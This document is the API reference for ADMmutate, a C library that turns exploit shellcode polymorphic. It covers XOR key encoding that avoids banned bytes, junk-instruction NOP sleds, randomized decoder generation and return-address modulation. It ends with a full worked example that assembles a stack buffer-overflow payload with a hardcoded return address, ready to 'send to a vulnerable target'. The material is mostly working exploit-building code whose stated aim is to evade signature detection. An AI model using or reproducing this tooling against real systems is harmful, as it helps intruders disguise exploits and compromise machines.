


# API Reference

## Overview

ADMmutate provides a clean C API for integrating polymorphic shellcode mutation into your exploits. This document details all public functions, structures, and constants.


## Core Data Structures

### struct morphctl

The main control structure for mutation operations.

```c
struct morphctl {
    int lower;           /* Enable tolower() resilient code      */
    int upper;           /* Enable toupper() resilient code      */
    unsigned int cipher; /* Placeholder for 16-bit key           */
    unsigned int cipher2;/* 2nd placeholder for more keyspace    */
    unsigned int slide;  /* Slide value for cipher               */
    unsigned int slide2; /* Slide value for cipher2              */
    int keyslide;        /* Toggle key sliding behaviour         */
    int arch;            /* Architecture selection               */
    int junk_pads;       /* Set by init_mutate                   */
    int decoder_instructions; /* Set by init_mutate           */
    char *banned;        /* Banned character list                */
};
```

**Field Details:**

| Field | Type | Description |
|-------|------|-------------|
| `lower` | `int` | Set to non-zero to enable `tolower()` resilient code generation |
| `upper` | `int` | Set to non-zero to enable `toupper()` resilient code generation |
| `cipher` | `unsigned int` | First 16-bit XOR key (auto-filled by `apply_key`) |
| `cipher2` | `unsigned int` | Second 16-bit XOR key (auto-filled by `apply_key`) |
| `slide` | `unsigned int` | Slide increment for first key (IA32_SLIDE only) |
| `slide2` | `unsigned int` | Slide increment for second key (IA32_SLIDE only) |
| `keyslide` | `int` | Enable sliding key behavior for IA32_SLIDE |
| `arch` | `int` | Target architecture (see Architecture Constants) |
| `junk_pads` | `int` | Number of junk pad instructions available (read-only) |
| `decoder_instructions` | `int` | Number of decoder instructions (read-only) |
| `banned` | `char *` | Null-terminated string of banned characters |

### struct junks

Describes a junk NOP instruction alternative (internal use).

```c
struct junks {
    char *code;     /* The operation code */
    size_t len;     /* Length of code */
    int noppad;     /* Can use for NOP pad? */
    int morph;      /* Can use for morph pad? */
    int upper;      /* Can use through toupper()? */
    int lower;      /* Can use through tolower()? */
    int dyn;        /* Is instruction dynamic? */
    int dynint;     /* Where is dynamic byte? */
    int weight;     /* Weight for selection (1=low, >1=higher) */
};
```

### struct decoder

Describes decoder instruction alternatives (internal use).

```c
struct decoder {
    int amount;         /* How many possible instructions */
    int order;          /* BCD of which positions possible */
    size_t lentohere;   /* Position storage */
    int upper;          /* # instructions usable in toupper code */
    int lower;          /* # instructions usable in tolower code */
    int padd;           /* Allow NON-OP padding after this? */
    char *codez[ALTERNATE]; /* Instruction alternatives */
};
```

## Architecture Constants



### Defined Constants

```c
#define DISABLE     0    /* No mutation */
#define IA32        1    /* Intel x86 architecture */
#define SPARC       2    /* Sun SPARC architecture */
#define HPPA        3    /* HP PA-RISC architecture */
#define MIPS        4    /* MIPS architecture (planned) */
#define IA32_SLIDE  5    /* Intel x86 with sliding keys */

#define JMAX        8    /* Max junks between working instructions */
#define ALTERNATE   8    /* Max alternate instruction paths */
#define WINT        32   /* Width of int for BCD calculations */
```

## API Functions

### init_mutate()

Initialize the mutation engine with architecture-specific settings.

```c
int init_mutate(struct morphctl *mut);
```

**Parameters:**
- `mut`: Pointer to morphctl structure with `arch` field set

**Returns:**
- `0` on success
- Non-zero on error

**Description:**
Initializes the mutation engine by loading architecture-specific instruction sets, decoders, and limits. Must be called before any other mutation functions.

**Example:**
```c
struct morphctl mut;
mut.arch = IA32;
mut.upper = 0;
mut.lower = 0;
mut.banned = NULL;

if (init_mutate(&mut) != 0) {
    fprintf(stderr, "Failed to initialize\n");
    exit(1);
}
```

**Side Effects:**
- Sets `mut->junk_pads` to number of available junk instructions
- Sets `mut->decoder_instructions` to number of decoder instructions
- Initializes global pointers `morpheng` and `njunk`

---

### apply_key()

Find a valid XOR key and encode the shellcode.

```c
int apply_key(char *mutant, size_t enc_amount, size_t njlen, 
              struct morphctl *mut);
```

**Parameters:**
- `mutant`: Buffer containing exploit data
- `enc_amount`: Number of bytes of shellcode to encode
- `njlen`: Offset where shellcode begins (after NOP sled)
- `mut`: Pointer to mutation control structure

**Returns:**
- `0` on success
- Non-zero on error (no valid key found)

**Description:**
Searches for XOR keys that:
1. Avoid banned characters
2. Survive `toupper()`/`tolower()` if enabled
3. Produce compliant encoded output

The function tests multiple keys and performs two rounds of verification before selecting one at random.

**Example:**
```c
char buffer[1024];
memcpy(buffer + nop_size, shellcode, shellcode_len);

if (apply_key(buffer, shellcode_len, nop_size, &mut) != 0) {
    fprintf(stderr, "No valid encoding key found\n");
    exit(1);
}
```

**Keyspace:**
- IA32/SPARC/HPPA: 2×16-bit = 32-bit keyspace
- IA32_SLIDE: 2×16-bit + 2×16-bit slide = 64-bit effective keyspace

---

### apply_jnops()

Replace NOP bytes with polymorphic junk instructions.

```c
int apply_jnops(char *mutant, size_t njlen, struct morphctl mut);
```

**Parameters:**
- `mutant`: Buffer containing exploit data
- `njlen`: Number of bytes to replace with junk NOPs
- `mut`: Mutation control structure (by value)

**Returns:**
- `0` on success
- Non-zero on error

**Description:**
Substitutes the first `njlen` bytes of the buffer with randomly selected junk instructions that have no operational effect. Instructions are:
- Length-preserving (1-byte replacements)
- Functionally equivalent to NOP
- Weighted by frequency for statistical distribution

**Example:**
```c
// Replace first 500 bytes with junk NOPs
if (apply_jnops(buffer, 500, mut) != 0) {
    fprintf(stderr, "Failed to apply junk NOPs\n");
    exit(1);
}
```

**Available Junk Instructions (IA32):**
- Push/Pop operations (0x50-0x5F)
- Exchange instructions (xchg)
- Inc/Dec operations (0x40-0x4F)
- Arithmetic NOPs (xor, test, etc.)
- Dynamic instructions (shr, imul, rol with random values)

---

### apply_engine()

Generate and insert polymorphic decoder engine.

```c
int apply_engine(char *mutant, size_t enc_amount, size_t njlen, 
                 struct morphctl mut);
```

**Parameters:**
- `mutant`: Buffer containing exploit data
- `enc_amount`: Number of bytes of encoded shellcode
- `njlen`: Offset where decoder should end (before shellcode)
- `mut`: Mutation control structure (by value)

**Returns:**
- `0` on success
- Non-zero on error

**Description:**
Generates a polymorphic decoder and places it at `buffer + njlen - decoder_length`. The decoder:
- Decodes the XOR-encoded shellcode at runtime
- Uses random instruction paths from alternatives
- Includes junk padding instructions
- Is generated out-of-order for additional obfuscation

**Example:**
```c
// Generate decoder at offset 435 (before shellcode at 500)
if (apply_engine(buffer, shellcode_len, 500, mut) != 0) {
    fprintf(stderr, "Failed to generate decoder\n");
    exit(1);
}
```

**Decoder Capabilities:**
- Multiple code paths per instruction (up to 8 alternatives)
- Junk padding between real instructions (up to JMAX operations)
- Out-of-order instruction generation
- Random register selection
- Sliding key support (IA32_SLIDE)

---

### apply_offset_mod()

Modulate return address bytes for additional variance.

```c
int apply_offset_mod(char *mutant, size_t olen, size_t offoff, 
                     struct morphctl mut);
```

**Parameters:**
- `mutant`: Buffer containing exploit data
- `olen`: Number of bytes to modulate
- `offoff`: Offset where return addresses begin
- `mut`: Mutation control structure (by value)

**Returns:**
- `0` on success
- Non-zero on error

**Description:**
Modulates the least significant byte of return address DWORDs, attempting to maintain validity while adding variance. Useful for offset brute-force techniques.

**Example:**
```c
// Modulate 200 bytes of return addresses at offset 800
if (apply_offset_mod(buffer, 200, 800, mut) != 0) {
    fprintf(stderr, "Offset modulation failed\n");
}
```

**Note:** This is an optional optimization for some exploit scenarios.

---

## Usage Workflow

```mermaid
%%{init: {'theme':'base', 'themeVariables': {'primaryColor':'#16213e','primaryTextColor':'#fff','lineColor':'#e94560'}}}%%
sequenceDiagram
    autonumber
    participant Dev as Developer
    participant API as ADMmutate API
    participant Buf as Exploit Buffer
    
    rect rgb(26, 26, 46)
    note right of Dev: Setup Phase
    Dev->>API: Configure morphctl struct
    Dev->>API: init_mutate(&mut)
    API-->>Dev: Returns 0 (success)
    end
    
    rect rgb(42, 54, 59)
    note right of Dev: Preparation
    Dev->>Buf: memset(buffer, NOP, size)
    Dev->>Buf: memcpy(buffer+nop, shellcode)
    Dev->>Buf: memset(buffer+nop+shell, RET, size)
    end
    
    rect rgb(83, 52, 131)
    note right of Dev: Mutation Phase
    Dev->>API: apply_key(buf, shell_len, nop, &mut)
    API->>Buf: Shellcode encoded
    API-->>Dev: Returns 0
    
    Dev->>API: apply_jnops(buf, nop, mut)
    API->>Buf: NOPs replaced
    API-->>Dev: Returns 0
    
    Dev->>API: apply_engine(buf, shell_len, nop, mut)
    API->>Buf: Decoder inserted
    API-->>Dev: Returns 0
    end
    
    rect rgb(21, 74, 42)
    note right of Dev: Optional
    Dev->>API: apply_offset_mod(buf, ret_len, ret_off, mut)
    API->>Buf: Returns modulated
    API-->>Dev: Returns 0
    end
    
    rect rgb(56, 142, 60)
    note right of Buf: Result
    Buf-->>Dev: ✅ Polymorphic exploit ready
    end
```



## Complete Example

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "ADMmutapi.h"

#define BUFFER_SIZE 1024
#define NOP_SIZE 500
#define SHELLCODE_SIZE 52
#define RET_SIZE 400

int main() {
    char buffer[BUFFER_SIZE];
    struct morphctl mut;
    char shellcode[] = /* your shellcode here */;
    unsigned long ret_addr = 0xbffff500;
    
    /* Step 1: Configure mutation */
    mut.upper = 0;        /* No toupper() requirement */
    mut.lower = 0;        /* No tolower() requirement */
    mut.banned = "\x00";  /* Ban NULL bytes */
    mut.arch = IA32_SLIDE; /* Use sliding keys */
    
    /* Step 2: Initialize engine */
    if (init_mutate(&mut) != 0) {
        fprintf(stderr, "Initialization failed\n");
        return 1;
    }
    
    /* Step 3: Prepare buffer */
    memset(buffer, 0x90, BUFFER_SIZE);
    memcpy(buffer + NOP_SIZE, shellcode, SHELLCODE_SIZE);
    
    /* Fill return addresses */
    for (int i = 0; i < RET_SIZE; i += 4) {
        *(unsigned long *)(buffer + NOP_SIZE + SHELLCODE_SIZE + i) = ret_addr;
    }
    
    /* Step 4: Apply mutations */
    if (apply_key(buffer, SHELLCODE_SIZE, NOP_SIZE, &mut) != 0) {
        fprintf(stderr, "Key application failed\n");
        return 1;
    }
    
    if (apply_jnops(buffer, NOP_SIZE, mut) != 0) {
        fprintf(stderr, "Junk NOP application failed\n");
        return 1;
    }
    
    if (apply_engine(buffer, SHELLCODE_SIZE, NOP_SIZE, mut) != 0) {
        fprintf(stderr, "Engine application failed\n");
        return 1;
    }
    
    /* Optional: Modulate return addresses */
    apply_offset_mod(buffer, RET_SIZE, NOP_SIZE + SHELLCODE_SIZE, mut);
    
    /* Step 5: Use polymorphic buffer */
    /* ... send buffer to vulnerable target ... */
    
    return 0;
}
```

## Error Handling

All functions return `0` on success and non-zero on error. Common error scenarios:

| Error | Cause | Solution |
|-------|-------|----------|
| `init_mutate()` fails | Invalid architecture or memory allocation issue | Check `arch` value is valid constant |
| `apply_key()` fails | No valid key found | Relax constraints (remove banned chars, disable upper/lower) |
| `apply_jnops()` fails | Insufficient junk instructions for constraints | Check available junk count in `mut.junk_pads` |
| `apply_engine()` fails | Buffer too small for decoder | Increase NOP sled size |

## Performance Considerations

### Key Search Optimization



**Tips:**
- Minimize banned characters
- Avoid both `upper` and `lower` flags simultaneously
- Use `IA32_SLIDE` for better keyspace without performance hit
- Pre-test shellcode for constraint compliance

### Random Seed Generation

For high-frequency exploit generation, ADMmutate uses architecture-specific high-resolution counters:

- **IA32**: TSC (Time Stamp Counter) via `RDTSC`
- **SPARC**: TICK register
- **HPPA**: TIMER register  
- **MIPS**: COUNT register (planned)

This allows unique shellcode generation at rates exceeding 1000/second.

---

**Previous**: [Architecture Guide](ARCHITECTURE.md) | **Next**: [Examples](EXAMPLES.md)
